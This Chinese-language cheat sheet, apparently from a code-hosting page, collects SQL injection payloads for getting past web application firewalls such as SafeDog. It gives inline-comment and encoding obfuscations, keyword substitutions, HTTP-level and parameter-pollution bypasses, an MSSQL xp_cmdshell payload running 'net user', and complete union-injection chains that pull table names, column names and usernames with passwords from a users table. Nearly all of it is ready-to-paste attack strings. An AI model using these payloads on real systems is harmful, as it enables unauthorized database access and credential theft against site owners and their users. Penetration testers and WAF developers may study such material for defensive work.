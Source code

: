 最新版
1、安全狗and的绕过（防止and和or的注入）
将and修改为/*!12345and*/ ps:12345是任意的5位数字
通过bp进行拦截，发送到intruder模块，进行爆破找特征值 返回结果正常即是可以被正常绕过
4-6位都可以

2、安全狗order by的绕过
order by一起出现会引发安全狗警告，要在order by之间添加一些字符
order /*//%$*/ by 1 -- 1

3、安全狗select　union的绕过（防止联合查询）
select和union在一起的时候会触发
跟order by原理相同，不过需要我们用bp进行fuzz
?id=-2' union /*/$%^*/ select 1,2,3 -- 1

4、查询数据的绕过
database()的绕过：
database和()放在一起的时候会触发waf
在两者之间添加干扰符即可
?id=-2' union /*/$%^*/ select 1,database/*////*/(),3 -- 1
查询表的绕过：
第一个绕过点：
information_schema.tables
waf会对tables进行拦截，想绕过需改成information_schema./*!tables*/
第二个绕过点：
from和information_schema./*!tables*/当这两个放在一起的时候会触发waf，这个时候要对from和information.schema./*!tables*/之间进行处理了
?id=-2' union /*/$%^*/ select 1,group_concat(table_name),3 from --+/*%/ %0a
information_schema./*!tables*/ -- 1
绕过过程：首先在union和select之间放干扰符号，然后在from和information_schema之间放 --+以及正确的干扰符，然后通过%0a进行换行，最后对talbe进行内联
但是还要通过where去指定对应的数据库
?id=-2' union /*/$%^*/ select 1,group_concat(table_name),3 from --+/*%/ %0a
information_schema./*!tables*/ where table_name='security' -- 1
但是information_schema和where出现在一起需要在中间添加干扰符
?id=-2' union /*/$%^*/ select 1,group_concat(table_name),3 from --+/*%/ %0a
information_schema./*!tables*/ /*////*/
where table_schema='security' -- 1  进行fuzz测试
获取security对应表下的所有列名：
?id=-2' union /*/$%^*/ select 1,group_concat(column_name),3 from --+/*%/ %0a
information_schema./*!columns*/ /*////*/
where table_schema='security' /*!12441and*/ table_name='users' -- 1
查询数据的绕过：
?id=-2' union /*/$%^*/ select 1,group_concat(username,0x3a,password),3 from /*////*/ users -- +

---

方法                                                                 payload
编码                                      1、进行url编码（少数waf不会进行URL解码,部分waf进行一次url解码==>可对payload进行二次url编码）
                                          2、Unicode编码：单引号 = %u0027、%u02b9、%u02bc
                                          3、部分十六进制编码：adminuser = 0x61646D696E75736572
                                          4、SQL编码：unicode、HEX、URL、ascll、base64等
                                          5、XSS编码：HTML、URL、ASCII、JS编码、base64等
大小写变换                                 select=SELecT
关键字替换                                 And = &&
                                          Or = ||
                                          等于号 = like （或使用’<’ 和 ‘>’ 进行判断）
                                          if(a,b,c) = case when(A) then B else C end
                                          substr(str,1,1) = substr (str) from 1 for 1
                                          limit 1,1 = limit 1 offset 1
                                          Union select 1,2 = union select * from ((select 1)A join (select 2)B;
                                          hex()、bin() = ascii()
                                          sleep() = benchmark()
                                          concat_ws() = group_concat()
                                          mid()、substr() = substring()
                                          @@user = user()
                                          @@datadir = datadir()
特殊字符替换（空格或注释绕过）               sqlserver中：/**/、/*|%23--%23|*/ 
                                          mysql中：%0a、%0a/**/、//*!*//、#A%0a
特殊字符重写绕过                           selselectect
多请求拆分绕过                             ?a=[inputa]&b=[inputb]  ===》(参数拼接)  and a=[inputa] and b=[inputb]
参数放Cookie里面进行绕过                    $_REQUEST（获取参数，会获取GET POST COOKIE）===>  若未检测cookie，我们可以放cookie里面
使用白名单绕过                             admin dede install等目录特殊目录在白名单内
                                          URL/xxx.php?id=1 union select …… ===》
                                          1、URL/xxx.php/admin?id=1 union select……
                                          2、URL/admin/..\xxx.php?id=1 union select……
内联注释绕过                               id=1 and 1=1 ===》  id=1/*!and*/1=1
参数重写绕过                               URL/xx.php?id=1 union select  ===》
                                          URL/xx.php?id=1&id=union&id=select&id=……&id=
特殊字符拼接                               mssql中，函数里面可以用+来拼接 ?id=1;exec('maste'+'r..xp'+'_cmdshell'+'"net user"')       
云waf                                     ===》找真实IP
http协议绕过                              Content-Type绕过：application/x-www-form-urlencoded è multipart/form-data
                                         请求方式绕过：更换请求方法
                                         多Content-Disposition绕过：包含多个Content-Disposition时，中间件与waf取值不同 
                                         keep-alive（Pipeline）绕过：手动设置Connection:keep-alive（未断开），然后在http请求报文中构造多个请求，将恶意代码隐藏在第n个请求中，从而绕过waf
                                         修改编码方式：Charset=xxx进行绕过
 Waf检测限制绕过                          参数溢出
                                         缓冲区溢出：
                                         UnIoN SeLeCT ===》 and (select 1)=(Select 0xA*99999) UnIoN SeLeCT and 1=1 ===》 and 1=1 and 99…99999 //此处省略N多个9同网段/ssrf绕过                                       
------------------------------------------------------------------------------------------------------
1=1绕过
'and 1=1-- -被拦截
&符号可以绕
'%261-- -
'%26true-- -
'%260-- -
'%26false-- -
xor可以绕
'Xor 1-- -
'Xor true-- -

'or length(database()=4)-- -会被ban，这样绕：
'%26(length(database/**/())=4)-- -
'%26(ascii(@@version)=53)-- -
1'or -1=-1-- -
1'or -0=-0-- -

内联注释
1'or /*!1=1*/-- -
或者简单粗暴点的 或者简单粗暴点的 直接绕过and和or：
/*!11440OR*/
/*!11440AND*/



order by绕过
%23%0a绕过
order%23%0aby 3
内联注释加注释绕过
1'/*!order /*!/*/**/by*/4-- -
1'/*!order /*/*%/**/by*/4-- -
1'/*!order /*!/*/**//**/by*/4-- -
1'/*!order /*!/*/**//*/**/by*/4-- -
同样类似上面绕过and方法
/*!11440order*/



union select绕过
利用内联注释和注释的混淆绕过
1'/*!union/*!/*/**/*/select/**/1,2,'password'-- -
/*!11440union*/
/*!select/*!/*/**/*/


系统函数绕过
单独的括号和函数名都不会检测，分开函数名和括号：
version () #直接空格
user%0a() #这个地方%0a~%20有很多，类似绕过空格
database/**/() #注释符
user/*!*/() #内敛注释


函数名绕过
/*!extractvalue/*!/*/**/*/
/*!updatexml/*!/*/**/*/

联合注入绕过方式
这里使用mysql自带的正则函数(regexp)

select * from company_info where name like '桑尼';  //查询name等于桑尼的数据
select * from company_info where name regexp '桑尼'; //查询结果中name包含桑尼的数据

获取详细信息
尝试获取数据库名、版本，因database()被识别被拦截

-1' regexp "%0A%23" /*!11444union*/ %0A /*!11444select*/ 1,database(/*!11444*/),version(/*!11444*/) %23

注入出表名
-1' union /*!--+/*%0aselect/*!1,2,*/ group_concat(schema_name) /*!from*/

/*!--+/*%0ainformation_schema./*!schemata*/ --+

